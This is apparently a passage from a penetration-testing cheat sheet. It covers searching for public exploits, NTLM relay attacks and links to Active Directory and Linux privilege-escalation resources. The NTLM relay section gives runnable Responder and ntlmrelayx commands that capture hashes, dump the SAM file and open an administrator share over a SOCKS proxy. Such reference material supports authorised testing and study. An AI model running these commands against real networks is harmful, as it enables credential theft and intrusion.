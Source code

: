 ## 10. [Finding Exploit](https://sploitus.com/)
[search public exploit](https://book.hacktricks.xyz/search-exploits)

	https://sploitus.com/
	<service_name> [version] exploit
	nmap -p- -sV -oX a.xml 10.10.10.168; searchsploit --nmap a.xml		#searchsploit to detect vulnerable services
	searchsploit apache local
	searchsploit linux 2.6 | grep -i ubuntu | grep local
	site:exploit-db.com remote privilege escalation
	https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/#compiling-windows-exploits-on-kali

## 11. NTLM Relay

	Vulnerable if message_signing: disabled:
	# nmap -n -Pn -p 445 --script smbsecurity-mode 10.5.23.0/24
	
	Disable SMB and HTTP in Responder.conf and start Responder:
	# ./Responder.py -I eth0
	
	NTLM Relay to target and extract SAM file:
	# ./ntlmrelayx.py -smb2support -t smb://10.5.23.42
	
	NTLM Relay using socks proxy:
	# ./ntlmrelayx.py -tf targets.txt -smb2support -socks
	
	Configure ProxyChains:
	# vi /etc/proxychains.conf
	[...]
	socks4 127.0.0.1 1080
	
	Access files via SOCKS proxy:
	# proxychains smbclient -m smb3
	'\\10.5.23.42\C$' -W pc05 -U
	Administrator%invalidPwd

## 12. Active Directory
[PayloadsAllTheThings - Active Directory Attacks](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md)

## 13. Linux PrivEsc
[CTF Privilege Escalation with examples](https://github.com/Ignitetechnologies/Privilege-Escalation) | [PayloadsAllTheThings - Linux PrivEsc Technique](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md) | [GTFOBins](https://gtfobins.github.io/)
